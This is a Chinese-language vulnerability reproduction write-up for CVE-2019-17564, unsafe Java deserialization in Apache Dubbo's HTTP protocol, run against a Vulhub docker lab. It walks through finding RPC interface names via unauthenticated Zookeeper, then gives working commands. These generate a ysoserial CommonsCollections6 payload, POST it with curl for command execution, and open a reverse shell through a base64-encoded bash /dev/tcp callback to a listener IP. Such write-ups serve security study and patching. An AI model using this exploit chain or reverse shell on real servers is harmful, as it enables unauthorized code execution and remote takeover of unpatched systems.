



# Apache Dubbo Java 反序列化漏洞 CVE-2019-17564

## 漏洞描述

Apache Dubbo 是一款高性能、轻量级的开源 Java RPC 服务框架。RPC，全称为 Remote Procedure Call，即远程过程调用，它是一个计算机通信协议。它允许像调用本地服务一样调用远程服务。

Dubbo 可以使用不同协议通信，当使用 http 协议时，Apache Dubbo 直接使用了 Spring 框架的 `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` 类做远程调用，而这个过程会读取 POST 请求的 Body 并进行反序列化，最终导致漏洞。

在 Spring 文档中，对 `HttpInvokerServiceExporter` 有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞影响

```
Apache Dubbo 2.7.4及以前版本
```

Apache Dubbo 2.7.5 后 Dubbo 使用 `com.googlecode.jsonrpc4j.JsonRpcServer` 替换了 `HttpInvokerServiceExporter`。

## 环境搭建

执行如下命令启动一个 Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080`，服务器默认会返回 500 错误。

## 漏洞复现

利用该漏洞需要先知道目标 RPC 接口名，而 Dubbo 所有的 RPC 配置储存在 registry 中，通常使用 Zookeeper 作为 registry。如果能刚好找到目标的 Zookeeper 未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub 对外开放了 8080 端口和 2181 端口，其中 2181 即为 Zookeeper 的端口，本地下载 [Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台 Zookeeper 服务器。

依次执行以下命令下载、解压、使用 zkCli 工具：

```
$ wget https://dlcdn.apache.org/zookeeper/zookeeper-3.7.0/apache-zookeeper-3.7.0-bin.tar.gz
$ tar xvf apache-zookeeper-3.7.0-bin.tar.gz
$ cd apache-zookeeper-3.7.0-bin/bin
$ ./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用 `ls` 即可列出其中所有节点，包括 Dubbo 相关的配置：



获取到 RPC 接口名为 `org.vulhub.api.CalcService`。直接用 ysoserial 生成 CommonsCollections6 的 Payload 作为 POST Body 发送到 `http://your-ip:8080/org.vulhub.api.CalcService` 即可触发反序列化漏洞：

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "touch /tmp/awesome_poc" > 1.poc

$ curl -XPOST --data-binary @1.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```



进入 docker，命令 `touch /tmp/awesome_poc` 执行成功：


反弹 shell：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1 
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx
```

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" > shell.poc

$ curl -XPOST --data-binary @shell.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```


